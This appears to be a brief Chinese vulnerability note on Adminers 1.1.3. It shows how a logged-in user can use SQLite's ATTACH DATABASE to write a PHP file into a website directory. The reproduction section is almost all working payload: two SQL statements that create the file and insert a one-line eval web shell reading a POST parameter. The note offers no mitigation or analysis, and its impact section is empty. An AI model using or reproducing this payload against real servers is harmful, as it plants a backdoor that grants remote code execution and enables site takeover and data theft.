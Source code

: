 Adminers 1.1.3 （SQLite 3 写入一句话木马）
==========================================

一、漏洞简介
------------

需要登陆Adminers，并且需要知道网站的路径。

二、漏洞影响
------------

三、复现过程
------------

    ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

    ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('<?php eval($_POST[a])?>');/*
